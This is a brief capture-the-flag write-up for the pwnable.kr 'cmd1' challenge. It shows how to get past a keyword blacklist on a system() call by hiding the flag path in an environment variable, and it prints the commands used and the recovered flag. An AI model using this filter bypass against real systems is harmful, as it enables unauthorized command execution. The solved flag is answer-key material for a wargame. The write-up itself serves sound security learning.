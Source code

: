 # cmd1

1. Login into server with passwd: `guest`:
```
$ ssh cmd1@pwnable.kr -p2222
$ scp -P2222 cmd1@pwnable.kr:~/* .
```

Simple task, from the source code we can easily see that for some arguments (not containing words `sh`, `tmp` and `flag`) we get `system()` call with input arguments.

I logged into the server and did the following:
```
cmd1@prowl:~$ export fla=/home/cmd1/flag
cmd1@prowl:~$ ./cmd1 "/bin/cat \$fla"
mommy now I get what PATH environment is for :)
```

I just set an env variable `fla` containing full path to `flag` file and run the `cmd1` with `cat` arguments on `fla`.  


```
FLAG: {mommy now I get what PATH environment is for :)}
```